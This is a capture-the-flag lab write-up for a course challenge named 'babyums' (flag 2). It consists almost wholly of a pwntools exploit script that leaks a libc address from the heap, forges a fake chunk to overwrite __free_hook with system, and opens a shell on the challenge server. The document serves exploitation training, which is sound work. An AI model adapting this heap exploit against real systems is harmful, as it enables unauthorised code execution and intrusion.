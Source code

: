 # Simple PWN 0x20(Lab - `babyums` - flag 2)
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
[Simple PWN 0x19(Lab - `babyums` - flag 1)](/2bR8lalySvKfA7Zr8DOhuA)


## Exploit
Very similar in this article: [0x18(Lab - `babynote`)](/zj3FTgxZQ22EgRPn1KHUSg)
:::spoiler code
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10008)

context.arch = 'amd64'

def add_user(idx, user_name, user_passwd):
    r.sendafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendafter(b'username\n> ', user_name)
    r.sendafter(b'password\n> ', user_passwd)

def edit_data(idx, note_size, message):
    r.sendafter(b"> ", b"2")
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendlineafter(b'size\n> ', str(note_size))
    r.send(message)

def del_user(idx):
    r.sendafter(b"> ", b"3")
    r.sendlineafter(b'index\n> ', str(idx))

def show_user():
    r.sendafter(b"> ", b"4")


'''------------------
Construct heap memory
------------------'''
add_user(0, b'a'*8, b'aaaa')
edit_data(0, 0x418, b'a')

add_user(1, b'b'*8, b'bbbb')
edit_data(1, 0x18, b'b')

add_user(2, b'c'*8, b'cccc')

'''------------------
Leak libc address
------------------'''
del_user(0)
show_user()
r.recvuntil(b'data:')
libc = (u64(r.recv(8)) >> 8) - 0x1ecbe0 - 0xa000000000000
info(f"libc address: {hex(libc)}")
free_hook_addr = libc + 0x1eee48
info(f"__free_hook address: {hex(free_hook_addr)}")
libc_sys_addr = libc + 0x52290
info(f"__libc_system address: {hex(libc_sys_addr)}")

'''------------------
Construct fake chunk
------------------'''
data = b'/bin/sh\x00'.ljust(0x10, b'b')
fake_chunk = flat(
    0, 0x31,
    b'cccccccc', b'cccccccc',
    b'cccccccc', b'cccccccc',
    free_hook_addr
)

edit_data(1, 0x48, data + fake_chunk)
edit_data(2, 0x8, p64(libc_sys_addr))
del_user(1)

r.interactive()
```
:::